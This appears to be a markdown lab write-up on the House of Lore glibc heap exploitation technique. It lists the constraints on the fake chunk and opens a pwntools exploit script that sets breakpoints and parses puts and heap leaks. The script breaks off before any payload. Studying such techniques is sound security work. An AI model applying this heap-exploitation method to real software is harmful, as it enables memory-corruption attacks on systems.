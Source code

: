  # Limitations

- The amount and precise location of controlled memory ***required to construct fake small and large chunks for the*** House of Lore can make it difficult to implement against these bins. 
-  It requires you must explore ***UAF(write-after-free)***.

 # Note
 The fake chunk must satisfy 2 constraints
 - The first is that its size field has to pass the unsortedbin size sanity check, meaning it should take a value between the minimum valid chunk size and the total amount of memory the current thread's arena has checked out from the kernel, a value held in the arena's "system_mem" field.
 - The second constraint is that the fake chunk's backward pointer must hold the address of writable memory since it will be referenced and used in a write operation during the partial unlink.

 # Script
 
unsortedbin.py

 
```python=
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_lore', checksec=False)

#libc = ELF('../.glibc/glibc_2.25/libc.so.6', checksec=False)
libc = elf.libc 

gs = """
b *main

b *main+290

b *main+390
b *main+521

b *main+748
b *main+849

b *main+945
b *main+1064
"""

index = 0

def info(mess):
    return log.info(mess)

def success(mess):
    return log.success(mess)

def error(mess):
    log.error(mess)

def handle():
    io.recvuntil(b'puts() @ ')
    puts = int(io.recvline(), 16)
    io.recvuntil(b'heap @ ')
    heap = int(io.recvline(), 16)
    success("puts leak")
    info('puts @ ' + hex(puts))
```